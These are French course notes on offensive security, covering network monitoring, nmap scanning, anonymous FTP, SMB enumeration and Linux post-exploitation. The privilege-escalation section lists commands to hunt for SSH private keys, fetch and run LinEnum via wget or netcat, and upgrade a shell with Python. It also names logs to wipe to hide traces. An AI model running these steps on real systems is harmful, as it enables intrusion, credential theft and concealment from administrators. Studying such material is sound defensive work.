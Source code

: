 =============================================
4. CyberSécurité - Les problèmes du système
=============================================

On rappelle d'une adresse IP est l'adresse d'une machine (127.0.0.1 = adresse IP locale). Il existe
des adresses publiques (n'importe qui peut vous trouver avec) ou des adresses privées (seuls ceux sur le même
réseau peuvent vous trouver).

Un protocole décrit comment sont échangés les données (ex: TCP, UDP).

Les données sont échangées entre deux machines (donc deux IP), en passant par un port et utilisant un protocole.

Le cours sur le réseau contient toutes les informations détaillées.

Fuites de données
	Il est important de vérifier tous les échanges de données faits sur un système car on peut s'apercevoir que certains
	sont faits a notre insu.

	Monitor
		Vous pouvez surveiller les échanges avec Wireshark et en utilisant des filtres (fait sous windows)

			* ip.src == valeur ou ip.dest == valeur
			* tcp.port == valeur ou udp.port == valeur
			* on regarde http.request.method == GET (ou POST)
			* :code:`&&` : et logique, :code:`||` : ou logique et :code:`!=` : différent de

		Une fois la liste des requêtes sous la fin, vous avez la barre des filtres pour appliquer les filtres sur le modèle
		précédent. Lorsque vous trouvez une ligne intéressantes, vous pouvez faire clique droit > suivre > flux TCP par exemple
		pour voir de façon claire les informations échangées (remplacez TCP par le protocole a suivre).

		Vous pouvez utiliser Fichier > Export et choisir par exemple http pour récupérer des fichiers téléchargés par exemple.

	Vidéo de présentation et d'un exemple : https://www.youtube.com/watch?v=yZTPMoYY2CA

Explorer un ordinateur
	Vous pouvez trouver des vulnérabilités, des services et applications en scannant une machine depuis son IP. Par exemple
	vous pouvez trouver les ports ouverts d'une machine.

	:code:`nmap` est une commande qui vous permet de scanner une machine pour récolter des informations.

		* Vous avez plusieurs types de scans

			* :code:`-sL` : liste toutes les cibles
			* :code:`-sn` : ne pas regarder les ports

		* Vous avez ensuite le protocole

			* scan UDP : :code:`-sU`
			* scan TCP : :code:`-sS` ou :code:`-sT`

		* :code:`-p <port>` : définir un port
		* :code:`-p- <port-port>` : définir un interval de ports
		* :code:`-T<n>` : timing template, n désigne l'agressivité de 0 (discret) à 5 (agressif)

		* vous pouvez lier un script a exécuter

			* :code:`--script=<lua script>` : https://nmap.org/nsedoc/, https://nmap.org/nsedoc/scripts/

		* :code:`-O` : détecter l'OS
		* :code:`-A` : détecter l'OS + version, scan avec script et table de routage
		* :code:`-v` : affiche toutes les informations

	Se protéger ?

		*
			Non testé mais il existe des outils Intrusion Detection (IDS) & Prevention Systems (IPS)
			qui surveillent votre réseau comme `Snort <https://www.snort.org/>`_ et `suricata <https://suricata-ids.org/>`_
			a installer sur un pare-feu (ex: `pfsense <https://www.pfsense.org/>`_). Ils seraient capables de détecter
			des tentatives de scans, de reverse scripting, traffic dangereux etc.

		*
			Je sais que sur OVH, vous pouvez installer un firewall externe pour bloquer les accès a votre VPS qui ne sont
			pas conformes a des règles que vous avez défini (ips, ports, et protocoles).

	Vidéo de présentation et d'un exemple : https://www.youtube.com/watch?v=StmtQKoFiWg

Transferts de fichiers via FTP
	FTP (File Transfert protocol) est un protocole de transfert de fichiers utilisé pour déposer et télécharger
	des fichiers sur une autre machine (dite serveur). Le protocole FTP utilise le port 21 (connexion, ... ou le port 22 si sftp)
	mais les données transférés passent par le port 20.

	Certains serveurs ont une utilisateur ftp :code:`anonymous` c'est-à-dire qui n'a pas besoin de mot de passe et qui certaines
	fois peut faire des choses sur le serveur qu'il ne devrait pas pouvoir faire. Il est donc recommandé de le désactiver.

	En tant qu'utilisateur anonyme, nous ne sommes pas associé a une session et n'avons donc pas des permissions restreintes,
	si par exemple un script que nous avons déposé est exécuté, alors nous pourrions obtenir une porte dérobée sur le serveur.

	Vous pouvez utilsez :code:`FileZilla` sous windows pour vous connecter en ftp. Sinon en ligne de commande
	:code:`ftp <ip>`.

		* :code:`ls` : liste les fichiers/dossiers d'un répertoire
		* :code:`cd` : se déplacer
		* :code:`put` : déposer un fichier sur le serveur
		* :code:`get` : récupérer un fichier sur le serveur

	Voici une vidéo + exemple : https://www.youtube.com/watch?v=i-jqFYTPEV4

Transferts de fichiers via SMB/NFS
	FTP est un protocole souvent utilisé pour partager des fichiers de façon externe. En interne, les protocoles
	SMB (~windows) ou NFS (~linux) sont majoritairement utilisés.

	Samba est un outil qui relie des infrastructures utilisant l'un des deux protocole et uniformise les échanges. Les échanges
	faits sont encryptés par défaut donc assez sécurisés. Vous pouvez ainsi relier tous les ordinateurs, photocopieuses, imprimantes
	d'une entreprise à un même dossier :code:`share` dont le contenu sera commun à toutes.

	enum (enum4linux)
		Télécharger ici l'alternative de enum.exe `enum4linux.pl <https://github.com/CiscoCXSecurity/enum4linux/blob/master/enum4linux.pl>`_
		sachant que je n'ai pas trouvé comment faire sous windows.

			* utilisation : :code:`./enum4linux.pl <options> <ip>`
			* :code:`-U` : liste des utilisateurs
			* :code:`-M` : liste des machines
			* :code:`-S` : liste des shares
			* :code:`-o` : infos sur le système
			* :code:`-i` : infos sur les imprimantes
			* :code:`-v` : affiche tout ce qui est fait

		Note: vous devez installer :code:`smbclient` pour utiliser enum4linux.

		Pour vous connecter a un dossier partagé : :code:`smbclient //IP/nom_dossier_share`. Vous pouvez tester de ne pas mettre
		de mot de passe. Les commandes sont les mêmes que plus haut en FTP (ls, cd, get, put, pwd, more).

	Voici une vidéo + exemple : https://www.youtube.com/watch?v=HscyCbModk4

Privilèges
	Un utilisateur doit généralement escalader en privilèges pour faire certaines actions, c'est-à-dire prouver qu'il a par exemple
	les droits :code:`administrateur` pour modifier la machine (ex: le exécuter en tant qu'administrateur sous Windows par exemple
	ou sudo/yum/... sous linux).

	Généralement, vous cherchez a obtenir un compte avec un maximum de permissions (escalade) ou alors d'autre comptes avec les même
	permissions que vous mais accès a d'autres données (horizontal).

Piratage
	Une fois que vous avez accès à la machine via un invite de commande (ex: reverse shell qui appelle une commande netcat
	qui envoi un shell sur votre machine).

		* vous pouvez utiliser :code:`echo $0` pour obtenir le chemin (donc nom) de votre shell
		* vous pouvez essayer :code:`python -c 'import pty; pty.spawn("/bin/bash")'` pour passer à bash
		* ou directement :code:`bash` si ça marche
		* vous pouvez utiliser :code:`whoami` pour voir qui vous êtes (les utilisateurs les plus important sont ceux ayant les droits root : /etc/sudoers)
		* chercher des informations

			* clef ssh : :code:`find / -name id_rsa 2> /dev/null`
			* sauvegardes
			* fichiers sensibles, mot de passes
			* des informations sur la machine (noyau, version, ...)

				* noyau, version
				* processus, ... qui pourraient être vulnérables
				* scripts de sauvegarde (exploit crontabs)
				* fichier/dossiers avec des mauvaises configurations (permissions, etc.)
				* https://blog.g0tmi1k.com/2011/08/basic-linux-privilege-escalation
				* https://payatu.com/guide-linux-privilege-escalation
				*

			* Outil : LinEnum (https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh)

				* récupérer : :code:`wget https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh` ou ftp/...
				* alternative

					* dans /tmp, sur l'attaqué (IP) on lit le fichier : :code:`nc -l -p 1337 > LinEnum.sh`
					* sur l'attaquant on écrit le fichier a IP : :code:`nc IP 1337 < LinEnum.sh`

				* :code:`chmod +x LinEnum.sh` et :code:`./LinEnum.sh`


			* ...

		* effacer ses traces

			* :code:`/var/log/auth.log` : connexion ssh
			* :code:`/var/log/syslog` : pare-feu
			* :code:`/var/log/<service>` : apache (serveur web, access.log)... les logs d'un service.

	Vidéo d'explication : https://www.youtube.com/watch?v=_SMxZPne5QU

Piratage : SUID
	SUID correspond a une permission qui une fois ajoutée fait qu'un fichier est exécuté avec les droits de son créateur
	donc un fichier .sh de root est exécuté avec les permissions root.

	https://gtfobins.github.io/ : liste de fichiers binaires qui si la machine n'est pas bien configurée, alors peut
	être utilisés pour élever ses privilèges.

		* :code:`find / -perm -u=s -type f 2>/dev/null`